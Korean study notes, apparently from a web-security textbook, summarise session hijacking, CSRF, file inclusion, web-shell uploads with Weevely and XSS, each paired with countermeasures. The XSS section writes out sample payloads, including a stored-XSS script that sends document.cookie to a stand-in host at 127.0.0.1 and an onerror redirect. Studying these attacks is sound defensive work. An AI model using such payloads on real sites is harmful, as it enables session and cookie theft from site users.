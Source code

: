 - 세션(Session)이란 일정 시간동안 같은 사용자(정확하게 브라우저를 말한다)로 부터 들어오는 일련의 요구를 하나의 상태로 보고 그 상태를 일정하게 유지시키는 기술이다. 방문자의 요청에 따른 정보를 방문자 메모리에 저장하는 것이 아닌 웹 서버가 세션 아이디 파일을 만들어 서비스가 돌아가고 있는 서버에 저장하는 것이다

1. 세션 하이재킹 - 특정 사용자의 세션을 탈취하는 해킹 기법이다
2. 패킷 스니핑 - 자신의 컴퓨터 주변의 패킷을 도청하는 해킹 기법이다

- 대응방법: 암호화와 지속적 인중(시간 지나면 로그아웃), 168p/186

### CSRF(Cross-site Request Forgery, 사이트 간의 요청 위조)

- 대응방법 : Referrer 검증 / Security Token 사용 / CAPTCHA 사용/ Double Submit Cookie Pattern

### 파일인클루젼(File Inclusion)

- 지정한 파일을 PHP include()로 소스코드에 삽입

1. 로컬파일인클루젼(LFI) - 이미 시스템에 존재하는 파일을 인클루드
2. 리모트(RFI) - 외부에 있는 파일을 원격으로 인클루드

- 대응방법 : 가장 좋은 경우는 사용자 입력을 통해 파일이 전달되지 않도록 하는 거지만 어쩔 수 없는 경우엔 꼭 필요한 파일만 사용하도록 철저히 검사한다

### 파일 업로드(File Upload)

- 파일이 업로드 되는 페이지(게시판, SNS 등)에 악성파일(웹쉘)을 업로드

1. 칼리리눅스에 내장된 Weevely라는 툴을 이용하여 피해 대상 웹 서버에 웹셸을 업로드하고 원격에서 실행시킬 수 있다.

- 대응방안 : type 및 파일 확장명 제한 / 업로드 된 파일을 랜덤하게 생성 / 웹서버, 웹어플리케이션 분리

### CAPTCHA 공격

- 대응방안 : 디버기용 코드 배포시 꼭 제거.

### XSS(cross-site scripting) 공격

- 사이트 간 스크립팅(또는 크로스 사이트 스크립팅, 영문 명칭 cross-site scripting, 영문 약어 XSS)은 웹 애플리케이션에서 많이 나타나는 취약점의 하나로 웹사이트 관리자가 아닌 이가 웹 페이지에 악성 스크립트를 삽입할 수 있는 취약점이다.

- 클라이언트 쪽의 웹브라우저를 공격하는 기법. `<script>`와 같은 입력값이 그대로 웹페이지에 표시되면 위험. 자바스크립트를 이용해 세션쿠키를 탈취. 혹은 `<img src=x onerror=window.location.assign("http://127.0.0.1/hacked.php)>` 이나 `<svg>` 태그도 시도해볼 수 있다.

1. Reflected XSS 공격

- 피싱을 하여 사용자가 `<script>` 포함된 링크를 클릭하게 하여 세션값을 탈취할 수 있다(URL 인코딩 필수)
- `<script>alert(1)</script>` 값을 input 값에 입력해보아서 해당 공격방법이 통하는지 체크해볼 수 있다.

2. Stored XSS 공격

- 서버에 직접 `<script>`코드를 삽입. 예로 `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>

3. BeEF xss framework 사용.

- 대응방안 : php의 경우 `htmlspecialchars`이라는 함수를 사용한다. 그럼 `<>` 태그가 작동하지 않는다.

### sql 인젝션

Command option : 198p
